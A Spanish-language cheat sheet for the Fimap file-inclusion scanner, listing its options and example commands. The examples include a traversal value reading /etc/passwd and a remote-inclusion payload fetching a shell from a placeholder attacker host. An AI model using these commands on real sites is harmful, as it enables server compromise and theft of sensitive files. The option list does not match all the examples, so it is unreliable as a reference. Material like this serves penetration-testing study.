 ### **Hacking Web/LFI y RCE/Fimap.md**

# Fimap

## Descripción

`Fimap` es una herramienta automatizada para la detección y explotación de vulnerabilidades de inclusión de archivos locales (LFI) y remotos (RFI) en aplicaciones web. Permite explorar y extraer contenido sensible de servidores vulnerables de manera eficiente.

## Uso

```bash
fimap [opciones]
```

### Opciones principales

- `-u URL`: Especifica la URL objetivo para la prueba de inclusión de archivos.
- `-m METHOD`: Define el método de solicitud HTTP (GET o POST).
- `--cookie COOKIE`: Usa una cookie específica durante las pruebas.
- `--verbose`: Muestra información detallada durante la ejecución.
- `--recursive`: Realiza pruebas de manera recursiva en diferentes parámetros.
- `--payload PAYLOAD`: Define un payload personalizado para la inclusión de archivos.
- `--output FILE`: Guarda los resultados de las pruebas en un archivo especificado.

## Ejemplos

- Probar una URL para LFI:
  
  ```bash
  fimap -u "http://example.com/page.php?file=../../etc/passwd"
  ```

- Probar una URL para RFI utilizando un payload personalizado:
  
  ```bash
  fimap -u "http://example.com/page.php?file=" --payload "http://malicious.com/shell.txt"
  ```

- Usar datos POST en la solicitud y especificar una cookie:
  
  ```bash
  fimap -u "http://example.com/login.php" -m POST --cookie "session=abcd1234" --data "username=admin&password=admin"
  ```

- Realizar pruebas recursivas en múltiples parámetros:
  
  ```bash
  fimap -u "http://example.com/search.php?q=test" --recursive
  ```
